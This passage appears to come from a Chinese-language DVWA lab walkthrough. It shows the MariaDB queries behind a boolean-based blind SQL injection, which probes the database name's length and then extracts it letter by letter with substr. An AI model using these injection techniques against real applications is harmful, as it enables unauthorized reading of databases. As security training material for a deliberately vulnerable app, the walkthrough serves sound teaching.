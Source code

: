 ​ 后端数据库执行的命令如下：

```bash
MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and length(database())>1;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.001 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and length(database())>2;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.000 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and length(database())>5;
Empty set (0.000 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and length(database())>4;
Empty set (0.000 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and length(database())>3;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.000 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and length(database())=4;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.000 sec)
MariaDB [dvwa]> select substr(database(),1,1);
+------------------------+
| substr(database(),1,1) |
+------------------------+
| d                      |
+------------------------+
1 row in set (0.002 sec)

MariaDB [dvwa]> select substr(database(),2,1);
+------------------------+
| substr(database(),2,1) |
+------------------------+
| v                      |
+------------------------+
1 row in set (0.000 sec)

MariaDB [dvwa]> select substr(database(),3,1);
+------------------------+
| substr(database(),3,1) |
+------------------------+
| w                      |
+------------------------+
1 row in set (0.000 sec)

```